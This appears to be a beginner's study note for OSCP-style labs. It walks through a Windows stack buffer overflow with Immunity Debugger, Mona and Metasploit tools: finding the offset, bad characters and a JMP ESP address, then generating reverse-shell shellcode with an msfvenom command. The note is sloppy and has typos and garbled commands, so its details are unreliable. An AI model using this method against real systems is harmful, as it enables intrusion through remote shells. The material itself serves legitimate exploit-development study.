 <h2>Starting from setting up and environment with Mona.</h2>

<h3>SettingUp an Config with Mona.</h3>
<p> I am just a noob, i am writing this for myself to be able to understand the step to reprodcue error throughly but it's not something you jump right away becasue you will not even get the basics of it if you don't know what is <em> PYTHON, ImmunityDebugger, MetaSploit frameoork, Little bit of Assembly and How stack or Registers work while running a program. </em></p>
<ul></ul>
<li>In the bottom of the Immunity Debugger, we need to set the Config for Mona so that we can be able to Analysis Bytearray later which may comes handy while finding bad chars.</li>
<code><em>!mona config -set workingfolder C:\mona\oscp\</em></code>
Now, we have set the Configuration to that folder so while comparing later with esp, we will have to take care of this.

<li>Keep the fuzzing going on and notice the Bytes at which it gets crashed???? :It is helpful while creating pattern:</li>
<h3>Finding the offset.</h3>
<li>Create a pattern with <code>Pattern_create.rb -l CRASHEDBYTE </code>which is probably inside metasploit-framework</li>
<li>We got the pattern now we need to insert it into exploit in order to Figure out it's OFFSET </li>
<li>We can either find offset via  <code><em>!mona findmsp -distance CRASHEDBYTE</em></code> Or with Pattern_offset.rb -l CRASHEDBYTE -q ValueInEIP</li>
<li>Now we know the offset so put it inside the Exploit and we can also keep RTN as BBBB to reflect it in the Register.</li>
<h3>Finding the Bad Chars.</h3>
<li>Run the BADCHARS, (You can exclude \x00)and keep that payload to exploit in the the place of payload and set the Byte array for mona to <code><em>!mona bytearray -b "\x00" </code> First with  \x00. Remember we set the config at the begining? So the bytearray.bin is stored inside that config and we need that.</em></li>
<li>Watch out the MONA COMPARISON, and see the bad chars.</li>
<li>REPEAT: Iterate it while erasing the BadChars from the Exploit and Including the badchars in !mona bytearray, Remember that most of the time it's sequential and the early index is most of the times a bad chars. </li>
<li>COMPARE CODE: <code>!mona compare -f c:\mona\oscp\bytearray.bin -a esp</code></li>
<li>Iterate above till we get the MonaComparison Status to Unmodified.</li>
<h3>Finding the Right Return address</h3>
<em>Because whenever a function is called then, what to execute after the function has done it's part is stored in the returned address so basically next instruction?</em>
<li>Call it either finding a JMP state or Return address, we can find it via</li>
<li><code><em>!mona jmp -r esp -cpb "x\00\xALLTHEBADCHARSYOUFOUND.</em></code></li>
<li>See the Log data results and keep one JMP Esp 0x00 Addresss for later use.</li>
<li>If the address is suppose, 0x1129AF, then there comes Big Endian and Little Endian so </li>
<li>Manage the exploit.py with Return Address in the rtn variable but in different format like this: "\xAF\x29\x11" probably as a LSB perspective right?</li>
<h3>Generating the Payload shellcode.</h3>
<li>Now is the time to generate Payload so BADCHARS comes here to...</li>
<code><em>msfvenom -p windows/shell_riverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00\xALLTHEBADCHARS" -f c </code>or you can use py too</em>
<li>You get the shellcode now manipulate the Exploit payload with the Generated and make sure to use the string inside ("") if it's format c and in such a way that there should be, OFFSET, RETN, PADDING = "\x90" * 16 <u>No Operation because it's a bad practice to run the shellcode instantly so we are using No operation to skip for a while.</u></li>
<li>Leave the PostFix as it is or give something as it doesn't really matter.</li>
<h3>Exploit</h3>
<li>You are good to go now. :wink:</li>
<li>There may comes some error but someone who has came this far will figure out how to solve it.</li>
